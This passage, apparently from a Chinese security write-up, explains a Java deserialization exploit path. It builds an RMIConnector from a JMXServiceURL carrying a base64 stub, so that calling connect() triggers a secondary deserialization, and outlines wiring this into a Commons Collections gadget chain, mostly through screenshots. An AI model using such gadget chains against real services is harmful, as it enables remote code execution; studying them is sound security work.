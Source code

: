 ![image-20220810110134482](./Zets/index/image-20220810110134482.png)

到此，这个利用方法就通了，给出构造

```java
JMXServiceURL jmxServiceURL = new JMXServiceURL(&#34;service:jmx:rmi://&#34;);
setFieldValue(jmxServiceURL, &#34;urlPath&#34;, &#34;/stub/base64string&#34;);
RMIConnector rmiConnector = new RMIConnector(jmxServiceURL, null);
```

现在只要能调用它的`connect`方法就可以了

#### CC链

说到调用任意方法，茯苓一下子就想到了 CC 链

##### InvokerTransformer

将`connect`装入

![image-20220810111220880](./Zets/index/image-20220810111220880.png)

用`TiedMapEntry`封装`LazyMap`

![image-20220810111306848](./Zets/index/image-20220810111306848.png)

最后装入`HashMap`用于触发整条链

![image-20220810111511145](./Zets/index/image-20220810111511145.png)
